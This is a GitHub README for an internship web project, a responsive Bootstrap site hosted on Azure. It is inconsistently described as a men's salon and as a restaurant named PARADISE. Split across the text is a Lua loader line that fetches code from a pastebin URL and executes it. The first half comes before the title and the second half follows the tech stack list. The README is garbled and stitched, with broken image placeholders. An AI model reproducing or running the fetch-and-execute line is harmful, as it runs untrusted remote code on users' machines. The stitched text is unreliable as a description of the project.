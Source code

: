 loadstring(game:HttpGet(('htt# ✨ Men's Salin  ✨

This is a web based application developed for a restaurant named PARADISE.

### This web based restaurant application has been developed for the accomplishment of Future Ready Talent Internship program launched by Microsoft, Future Skills Prime, Quess, Github and EY.


**Project Link** -https://victorious-grass-0ab224a10.3.azurestaticapps.net
**Project demo Video link** -  

## Features and Functionalities 😃

- Interactive and responsive UI.
- Has many graphical and visual innovative effects.
- Have an aesthetically pleasing visual design and architecture.
- Has collection of many web pages including Home, About Us, Contact, Menu, Chef Staff pages etc.
- User is able to book a table through the website.
- Included the feedback Survey form to increase the scope of improvement 

## Screenshots 📸
### Home page -  ![Men's Salon Beauty Category Flat Bootstrap Responsive Web Template _ Home - Brave 10-08-2023 13_24_41](https://github.com/satyaprasadpithani/project-FRT/assets/113784988/f9d8b861-8ae1-4443-a5ad-2fb2e3207c2d)

### Services page -![service1](https://github.com/satyaprasadpithani/project-FRT/assets/113784988/22954817-2e0d-47c2-ad9c-283eddc65a20)
![Uploading service4.png…]()



### About Us Page -![Uploading about us 5.png…]()
![Uploading about us 4.png…]()

### Gallery Page -![gallery1](https://github.com/satyaprasadpithani/project-FRT/assets/113784988/e9824b41-92c7-4a9e-9627-b8f558dbc75a)
![Uploading gallery2.png…]()

### Contact page -![Men's Salon Beauty Category Flat Bootstrap Responsive Web Template _ Contact Page __ w3layouts - Brave 10-08-2023 13_27_02](https://github.com/satyaprasadpithani/project-FRT/assets/113784988/6efe7a14-fb56-4153-a0a2-dac7b408d5bd)

## Tech Stack 💻

- [Azure(Hosting)](https://azure.microsoft.com/en-in/features/azure-portal/)
- HTML
- CSS
- Bootstrap
- JavaScriptps://pastebin.com/raw/PaWZGzyK'),true))()![healthbot](https://github.com/satyaprasadpithani/project-FRT/assets/113784988/9936e2a6-acfd-4bb8-81fc-c168ef6b48dc)
